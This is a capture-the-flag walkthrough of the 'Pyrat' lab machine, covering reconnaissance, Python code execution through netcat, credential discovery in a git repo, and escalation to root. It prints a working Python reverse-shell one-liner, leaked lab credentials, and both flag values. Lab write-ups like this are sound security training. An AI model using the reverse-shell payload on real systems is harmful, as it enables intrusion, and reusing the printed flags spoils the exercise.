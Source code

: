 ```yaml
---
Title: CTF Walkthrough 4
categories: [CTF, CTF_walkthrough]
tags: [CTF]
---
```

"<span style="color:yellow">*Becoming a hacker will take intelligence, practice, dedication, and hard work. Therefore, you have to learn to distrust attitude and respect competence of every kind.*</span>"


![cover](/pictures/SWS_pictures/write_up/pyrat/cover.png)

### Room Information
- Room Name: Pyrat
- Difficulty Level: Easy
- Room type: Challenges(CTF)

![cover](/pictures/SWS_pictures/write_up/pyrat/machine.png)

### Reconnaissance
![cover](/pictures/SWS_pictures/write_up/pyrat/info.png)

Let’s run nmap and check what ports are open.

![cover](/pictures/SWS_pictures/write_up/pyrat/nmap.png)

I discovered 2 open ports: 22(ssh) and 8000(SimpleHTTP/0.6 Python/3.11.2). let’s check the website with port 8000.

![cover](/pictures/SWS_pictures/write_up/pyrat/website.png)

It shows try more basic connection, meaning try netcat.

![cover](/pictures/SWS_pictures/write_up/pyrat/netcat.png)

Whichever method I use is not defined. This error is related to python. I can run that basic python script since simpleHTTP server is running let’s try python code execution.

![cover](/pictures/SWS_pictures/write_up/pyrat/pycode.png)

Search for exploiting python code execution in web

![cover](/pictures/SWS_pictures/write_up/pyrat/norespone.png)

No response so try with eval() function.

![cover](/pictures/SWS_pictures/write_up/pyrat/invalid.png)

It showed an invalid syntax error, which means our code was interpreted with python.

![cover](/pictures/SWS_pictures/write_up/pyrat/wwwdata.png)

We got code execution as www-data. Now let’s try to get the reverse shell. For that search reverse shell cheat sheet. 

![cover](/pictures/SWS_pictures/write_up/pyrat/cheatsheet.png)

From the ipv4, copy the second line, modify the ip and port number as yours, and use execl() function. The command will look like the following:

exec('import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip",port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")')

Before running this command we have to start nc.

![cover](/pictures/SWS_pictures/write_up/pyrat/exec.png)

![cover](/pictures/SWS_pictures/write_up/pyrat/connected.png)

Run this command: python3 -c 'import pty;pty.spawn("/bin/bash")'

### Now Let’s get to the User. 

![cover](/pictures/SWS_pictures/write_up/pyrat/search.png)

We don’t have permission to ‘think’ folder but found a git repo on /opt/dev directory. 

![cover](/pictures/SWS_pictures/write_up/pyrat/git.png)

When the credential for the user ‘think’.

![cover](/pictures/SWS_pictures/write_up/pyrat/cred.png)

Username: think <br>
Password: TH1NKINGPirate$


With those credentials let’s login to ssh.

![cover](/pictures/SWS_pictures/write_up/pyrat/think.png)

![cover](/pictures/SWS_pictures/write_up/pyrat/user.png)

Finally, boom…..we got the user flag. 

### Privilege Escalation
The next task is to get the root.txt flag. It isn’t as easy as I thought.  User think can’t run sudo on the pyrat machine.

![cover](/pictures/SWS_pictures/write_up/pyrat/su.png)

If that is the case we need to find different way. So let’s use git repo. Earlier we could run it. Let’s run from think.

![cover](/pictures/SWS_pictures/write_up/pyrat/log.png)

![cover](/pictures/SWS_pictures/write_up/pyrat/diff.png)

There is a ‘get_this_enpoint’ function, let’s check that shell function.

![cover](/pictures/SWS_pictures/write_up/pyrat/shell.png)

Shell function also gives access as www-data that we already have. So let’s write a python script to  find some_endpoint

![cover](/pictures/SWS_pictures/write_up/pyrat/script.png)

Now let’s run it

![cover](/pictures/SWS_pictures/write_up/pyrat/admin.png)

admin is one of the endpoint, so let’s find the password for admin.

![cover](/pictures/SWS_pictures/write_up/pyrat/password.png)

![cover](/pictures/SWS_pictures/write_up/pyrat/pass.png)

We got the password for admin that is abc123. 

Next step is start netcat and type admin and then password

![cover](/pictures/SWS_pictures/write_up/pyrat/root.png)

Now I have root access. 

![cover](/pictures/SWS_pictures/write_up/pyrat/rootflag.png)

Finally, I got the root.txt


### Flag Captured
user.txt flag: 996bdb1f619a68361417cabca5454705
root.txt flag:  ba5ed03e9e74bb98054438480165e221
